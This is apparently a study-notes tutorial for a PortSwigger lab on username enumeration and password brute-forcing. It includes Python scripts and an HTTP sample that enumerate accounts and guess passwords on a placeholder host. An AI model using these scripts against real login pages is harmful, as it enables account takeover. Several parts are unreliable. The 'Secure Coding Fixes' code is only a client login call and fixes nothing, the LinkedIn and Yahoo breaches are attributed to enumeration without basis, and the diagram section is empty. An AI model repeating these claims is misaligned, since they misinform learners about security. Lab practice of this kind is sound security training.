

## Introduction to Authentication Vulnerabilities

Welcome to the Web Security Academy series, where we delve deep into various aspects of web security. Today, we will focus on a specific type of vulnerability: **username enumeration via different responses**. This vulnerability occurs when an application provides different responses based on whether a username exists or not during the login process. Understanding this vulnerability is crucial because it can lead to unauthorized access and compromise sensitive information.

### Background Theory

Authentication is a fundamental aspect of web security. It ensures that only authorized users can access certain resources. Typically, authentication involves two main components:

1. **Username**: A unique identifier for a user.
2. **Password**: A secret known only to the user.

When a user attempts to log in, the application checks if the provided credentials match those stored in the system. If they do, the user is granted access; otherwise, access is denied.

#### How Username Enumeration Works

Username enumeration occurs when an attacker can determine whether a given username is valid or not by analyzing the responses from the server. This can happen through several mechanisms, including:

- Different error messages for existing and non-existing usernames.
- Different HTTP status codes.
- Different response times.

For instance, if a server responds with "Invalid username" for a non-existent username and "Incorrect password" for an existing username, an attacker can easily determine which usernames are valid.

### Real-World Examples

Several high-profile breaches have been linked to username enumeration vulnerabilities. One notable example is the **LinkedIn breach in 2012**, where attackers were able to enumerate valid usernames and subsequently brute-force passwords. This led to the exposure of millions of user accounts.

Another example is the **Yahoo breach in 2013**, where attackers used similar techniques to enumerate usernames and gain unauthorized access to user accounts.

### Lab Setup

To understand and practice detecting and exploiting username enumeration vulnerabilities, we will use the **PortSwigger Web Security Academy**. Here’s how to set up the lab:

1. Visit the URL: `https://portswigger.net/web-security`.
2. Click on the "Sign Up" button to create an account.
3. Once logged in, navigate to the "Academy" section.
4. Select "All Labs".
5. Search for "authentication labs".
6. Choose "Lab Number 1: Username Enumeration via Different Responses".

### Lab Objective

The objective of this lab is to identify a valid username, brute-force the corresponding password, and access the user's account page. This involves:

1. Enumerating a valid username.
2. Brute-forcing the password for the identified username.
3. Accessing the user's account page.

### Tools and Techniques

To achieve our objective, we will use tools like **Burp Suite**. Burp Suite is a comprehensive toolkit for performing security testing of web applications. It includes features such as an intercepting proxy, a scanner, an intruder, and more.

#### Setting Up Burp Suite

1. **Install Burp Suite**: Download and install Burp Suite from the official website.
2. **Configure Proxy**: Set up Burp Suite as your proxy in your browser settings.
3. **Intercept Requests**: Enable interception in Burp Suite to capture and analyze HTTP requests.

### Enumerating Usernames

The first step is to enumerate valid usernames. We will send login requests with different usernames and observe the server's responses.

#### Example Code: Sending Login Requests

```python
import requests

# List of candidate usernames
usernames = ["admin", "user", "test"]

# Base URL of the login endpoint
login_url = "http://example.com/login"

for username in usernames:
    data = {
        "username": username,
        "password": "dummy_password"
    }
    response = requests.post(login_url, data=data)
    print(f"Response for {username}: {response.status_code}")
```

#### Analyzing Responses

We need to analyze the server's responses to determine if a username is valid. Common indicators include:

- **HTTP Status Codes**: Different status codes for valid and invalid usernames.
- **Error Messages**: Specific error messages for valid and invalid usernames.
- **Response Times**: Longer response times for valid usernames due to additional processing.

#### Example Response Analysis

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

username=admin&password=dummy_password

HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 17
Content-Type: text/html; charset=UTF-8

Invalid password
```

In this example, the server returns a `200 OK` status code and an "Invalid password" message, indicating that the username is valid.

### Brute-Forcing Passwords

Once we have identified a valid username, the next step is to brute-force the corresponding password. We will use a list of candidate passwords and attempt to log in with each one.

#### Example Code: Brute-Forcing Passwords

```python
import requests

# Valid username identified in the previous step
valid_username = "admin"

# List of candidate passwords
passwords = ["password123", "admin123", "letmein"]

# Base URL of the login endpoint
login_url = "http://example.com/login"

for password in passwords:
    data = {
        "username": valid_username,
        "password": password
    }
    response = requests.post(login_url, data=data)
    if response.status_code == 200 and "Welcome" in response.text:
        print(f"Success! Password for {valid_username} is {password}")
        break
```

### Accessing the User's Account Page

After successfully logging in with the correct credentials, we can access the user's account page.

#### Example Code: Accessing the Account Page

```python
import requests

# Correct credentials
username = "admin"
password = "password123"

# Base URL of the login endpoint
login_url = "http://example.com/login"

# Base URL of the account page
account_url = "http://example.com/account"

# Log in
data = {
    "username": username,
    "password": password
}
session = requests.Session()
response = session.post(login_url, data=data)

# Access the account page
response = session.get(account_url)
print(response.text)
```

### Mermaid Diagrams

Let's visualize the process using a mermaid diagram.



### Pitfalls and Common Mistakes

1. **Ignoring Response Details**: Failing to carefully analyze the server's responses can lead to missing subtle differences between valid and invalid usernames.
2. **Brute-Force Detection**: Modern systems often implement rate limiting and IP blocking to prevent brute-force attacks. Ignoring these mechanisms can result in getting locked out.
3. **Incomplete Enumeration**: Not exhausting the list of candidate usernames can leave valid usernames undiscovered.

### How to Prevent / Defend

#### Detection

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual login patterns.
2. **Rate Limiting**: Limit the number of login attempts from a single IP address within a given time frame.
3. **Behavioral Analysis**: Use behavioral analysis to detect anomalies in login behavior.

#### Prevention

1. **Consistent Error Messages**: Ensure that the server returns consistent error messages regardless of whether the username exists or not.
2. **Account Lockout Policies**: Implement account lockout policies after a certain number of failed login attempts.
3. **Multi-Factor Authentication (MFA)**: Require multi-factor authentication to add an extra layer of security.

#### Secure Coding Fixes

Here’s an example of how to securely handle login requests:

```python
import requests

# Base URL of the login endpoint
login_url = "http://example.com/login"

def login(username, password):
    data = {
        "username": username,
        "password": password
    }
    response = requests.post(login_url, data=data)
    if response.status_code == 200:
        return True
    else:
        return False

# Example usage
if login("admin", "password123"):
    print("Login successful")
else:
    print("Login failed")
```

#### Configuration Hardening

Ensure that your web server and application configurations are hardened against username enumeration attacks. For example, configure your web server to return consistent error messages and implement rate limiting.

### Conclusion

Understanding and preventing username enumeration vulnerabilities is crucial for maintaining the security of web applications. By following the steps outlined in this chapter and practicing with real-world examples, you can effectively detect and mitigate these vulnerabilities.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs focused on web security, including username enumeration.
- **OWASP Juice Shop**: A deliberately insecure web application for learning about web security.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for practicing web security skills.

By engaging with these labs, you can deepen your understanding and proficiency in detecting and preventing username enumeration vulnerabilities.

---
<!-- nav -->
[[Web Security (PortSwigger)/13-Authentication Vulnerabilities/02-Lab 1 Username enumeration via different responses/00-Overview|Overview]] | [[02-Username Enumeration via Different Responses|Username Enumeration via Different Responses]]
